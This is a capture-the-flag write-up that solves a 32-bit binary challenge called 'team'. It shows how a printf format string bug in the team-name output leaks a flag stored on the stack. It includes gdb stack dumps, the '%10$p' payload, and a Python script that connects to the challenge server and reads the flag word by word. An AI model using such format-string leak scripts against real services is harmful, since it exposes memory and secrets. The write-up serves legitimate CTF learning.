 ### Solved by barrebas

Backdoor CTF was hosted on a weekday, so we only had the evening to grab as many flags as we could. Here's how we solved `team` for 600 points.

The binary we've been given is a 32-bit ELF. The output of strings doesn't give us much. Using `strace ./team`, it becomes clear that the binary reads from `flag.txt` so I created one locally. I echoed `flag1` to the file and restarted the binary.

It asks for a team name and a flag. After receiving these values in heap buffers (non-overflowable as far as I could gather) it proceeds to read the flag from `flag.txt`. Then, it compares the user input to the flag using `strcmp`. 

The team name is then printed using `printf`: this is vulnerable to a format string vulnerability:

```
bas@tritonal:~/tmp/bckdr/team-600$ ./team
Enter teamname: TEAM%llp
Enter flag: FLAG%llp
TEAM0x64 : incorrect flag. Try again.
```

Okay, so let's have a look at the stack when we reach `printf`. It gets called at `8048711` to print the team name.

```
Breakpoint 1, 0x08048711 in ?? ()
gdb-peda$ x/40wx $esp
0xffffd510: 0x0804b008  0x00000064  0x0804b140  0x00000000
0xffffd520: 0x00000000  0x00000000  0x0804b0d8  0x0804b008
0xffffd530: 0x00000000  0x0804b140  0x67616c66  0x00000031
0xffffd540: 0x00000000  0x00000000  0x00000000  0x00000000
0xffffd550: 0x00000000  0x00000000  0x00000000  0x00000000
0xffffd560: 0x00000000  0x00000000  0x00000000  0x00000000
0xffffd570: 0x00000000  0x00000000  0x00000000  0x00000000
0xffffd580: 0x00000000  0x00000000  0x00000000  0x00000000
0xffffd590: 0x00000000  0x00000002  0x00000000  0x856b7a00
0xffffd5a0: 0x00000000  0x00000000  0xffffd5d8  0x0804880c
```

What's this then? From breakpointing `strcmp`, I learned that the flag was on the stack. In fact, it's within reach of the format string vulnerability!

```
0xffffd530: 0x00000000  0x0804b140  0x67616c66  0x00000031
                          flag1 >>>   g a l f           1
```

That's too easy, right? Wrong! The flag starts at `%10$p`:

```bash
bas@tritonal:~/tmp/bckdr/team-600$ ./team
Enter teamname: %10$p
Enter flag: bleh
0x67616c66 : incorrect flag. Try again.
```

It worked remotely with this script:


```python
from socket import *
import struct, telnetlib, re, sys

def readtil(delim):
    buf = b''
    while not delim in buf:
        buf += s.recv(1)
    return buf

def sendln(b):
    s.send(b + b'\n')

def sendbin(b):
    s.sendall(b)

def p(x):
    return struct.pack('<L', x & 0xffffffff)
    
def pwn(n):
    global s
    s=socket(AF_INET, SOCK_STREAM)
    s.connect(('hack.bckdr.in', 8004))
    
    readtil('teamname: ')
    sendln("AAAA%"+str(n)+"$p")
    readtil('flag: ')
    sendln("CTF_TEAM_VULNHUB")
    data = readtil('again.')

    s.close()
    m = re.findall(r'0x([0-9a-f]*) :', data)
    return m[0]
    
full = ''
for i in xrange(10, 30):
    full += pwn(i).decode('hex')[::-1]
    print full
```

This spits out the flag until it hits something it can't hex decode. Because the CTF is long-lived, we won't post any flags. 

Far too easy for a 600 point challenge, but we're not complaining...

